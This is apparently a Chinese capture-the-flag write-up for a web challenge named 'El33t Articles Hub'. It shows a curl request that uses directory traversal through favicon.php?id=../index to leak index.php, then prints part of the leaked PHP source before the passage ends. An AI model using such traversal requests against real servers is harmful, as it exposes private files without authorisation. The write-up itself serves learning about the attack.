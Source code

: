```
```

最前面有看到 favicon.php?id=4 ，可以試著目錄穿越
```
$ curl http://128.199.224.175:22000/favicon.php?id=../index 
```


這樣可以看到 index.php 的檔案
```
<!DOCTYPE html>
<html>
  <head>
  <?php
    $favicon_id = mt_rand(1,7);
    echo "<link rel='shortcut icon' href='favicon.php?id=$favicon_id' type='image/x-icon'>";
  ?>
    <meta charset="UTF-8">
    <title>El33t Articles Hub</title>
  <link rel="stylesheet" href="css/bootstrap.min.css">
  <style type="text/css">
      #container {
        background-color: #fcf3cf   ;
        width: 60%;
        border: 1px solid grey;
        padding: 10px;
        margin: auto;
        margin-top: 10px;
        margin-bottom: 30px;
      }
      #container p {
        padding: 10px;
        font-size: 16px;
      }
      #header {
        height: 100px;
        margin: 20px;
        text-align: center;
        font-size: 24px;
      }

      body {
        background-color:  #f9e79f  ;
      }
  </style>

  </head>

  <body>

  <div id='header'>
        <b><u> El33t Articles Hub </u> </b>
  </div>

    <div id='container'>
    <?php
        error_reporting(0);
        require "fetch.php";
        require "helpers.php";

        $filename = !empty($_GET['file']) ? $_GET['file'] : "";

        if($filename !== "") {

            $filename = sanitize($filename);
```